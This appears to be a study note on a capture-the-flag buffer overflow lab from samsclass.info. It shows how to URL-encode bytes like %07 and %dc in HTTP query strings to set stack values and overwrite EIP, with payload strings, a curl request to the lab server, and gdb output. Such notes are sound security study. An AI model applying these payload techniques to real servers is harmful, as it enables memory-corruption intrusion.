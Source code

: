 # Buffer Overflow with HTTP Query Parameters

https://samsclass.info/127/proj/ED202c.htm


When we create a buffer overflow by sending an HTTP request to a server and need to send a number to the stack, we can do so by adding `%` before the needed character/number.


## Example 1: Sending a number in payload


For example, suppose we want to get the flag if the 31st character of some key has to equal 7:


```c
    if (key[30] == 7) {
        printf("Congratulations!  The first flag is XXXXXXXXXXXXXXXXX\n");
    }
```

We can generate the key we need and append the `%07` to it:

```python
print('U'*30 + '%07')
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUU%07
```

Send the request:

```bash
curl -X GET https://attack.samsclass.info/ED202e/ED202.5b.php?string=UUUUUUUUUUUUUUUUUUUUUUUUUUUUUU%07&submit=debug
```

And we get the key:

```
Executing gdb command: continue
Enter product key: Congratulations!  The first flag is SPECIAL-CHARACTER

Program received signal SIGSEGV, Segmentation fault.
```

## Example 2: Non-Existant Hexadecimal Value

Another example would be if we know that the we want to send the EIP to the address `0x565556dc`. The problem here is that the `\xdc` hex value doesn't represent an ASCII character. So sending the little Endian address would generate a `0x00` instead in the stack:

```bash
❯ python2 -c "print 'U'*37+ '\xdc\x56\x55\x56'"
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUVUV
```

See value in bottom right corner (`0x00565556`):
```
(gdb) x/40x $esp

0xffffdc20:	0xf7fe76eb	0x55557000	0x55555555	0x55555555
0xffffdc30:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffdc40:	0x55555555	0x55555555	0x55555555	0x00565556
```

To work around this, we can insert `%dc` instead:

```bash
❯ python2 -c "print 'U'*37+ '%dc\x56\x55\x56'"
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU%dcVUV
```

